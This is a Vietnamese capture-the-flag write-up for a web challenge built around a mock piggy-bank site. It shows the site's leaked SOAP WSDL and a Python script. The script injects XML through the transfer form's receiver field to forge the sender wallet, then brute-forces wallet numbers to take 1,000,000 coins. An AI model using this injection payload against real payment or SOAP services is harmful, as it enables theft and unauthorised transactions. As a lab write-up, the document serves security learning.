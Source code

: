 
URL:  http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/</br>
</br>
Đầu tiên ta cần tạo một tài khoảng và login vào</br>
Tại VIP : `"This section is available only to privileged pigs with money in pockets. Transfer to the piggy-bank 1 000 000 coins and become important."`</br>
![1](https://user-images.githubusercontent.com/23306492/43188979-b23d15d4-901f-11e8-9dac-2090b0566b3f.png)</br>
Trong khi ta chỉ có `110 `</br>
![2](https://user-images.githubusercontent.com/23306492/43189089-fc26109c-901f-11e8-880e-0d993ad51eaa.png)</br>
Tại tab `For Developers` ta thấy `<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->`</br>
**bankservice.wsdl.php**</br>
```
<wsdl:definitions name="Bank" targetNamespace="urn:Bank">
<message name="BalanceRequest">
	<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
	<part name="receiver_wallet_num" type="xsd:decimal"/>
	<part name="sender_wallet_num" type="xsd:decimal"/>
	<part name="amount" type="xsd:float"/>
	<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
	<operation name="requestBalance">
		<input message="tns:BalanceRequest"/>
		<output message="tns:BalanceResponse"/>
	</operation><operation name="internalTransfer">
		<input message="tns:internalTransferRequest"/>
		<output message="tns:internalTransferResponse"/>
	</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
	<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
	<operation name="requestBalance">
		<soap:operation soapAction="urn:requestBalanceAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
	<operation name="internalTransfer">
		<soap:operation soapAction="urn:internalTransferAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
</binding>
<wsdl:service name="BankService">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```
Sử dụng Wsdler </br>
![6](https://user-images.githubusercontent.com/23306492/43189565-0bbb77e4-9021-11e8-8fdf-9e07d176ae35.png)</br>
Sử dụng SOAP INJECTION VULNERABILITY để tấn công http://riseandhack.blogspot.com/2015/02/xml-injection-soap-injection-notes.html
```
import requests
url1 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/auth.php"
url2 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php"
s = requests.session()
s.get(url1,params={"login":"k4k4","password":"k4k4"})
for i in range(1000,10000):
	print i
	payload = {	"receiver":'1405</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">'+str(i)+'</sender_wallet_num><amount>1000000<!--',
				"amount":"-->"
		}
	r = s.post(url2,data=payload)
	msg = r.text
	if "Successful" in msg:
		print "ok"
		break
```
![8](https://user-images.githubusercontent.com/23306492/43189896-f0e7aef0-9021-11e8-9c4b-6c8e1a6331a3.png)</br>
![9](https://user-images.githubusercontent.com/23306492/43189915-fe30e32e-9021-11e8-9524-e2fb098652e9.png)</br>

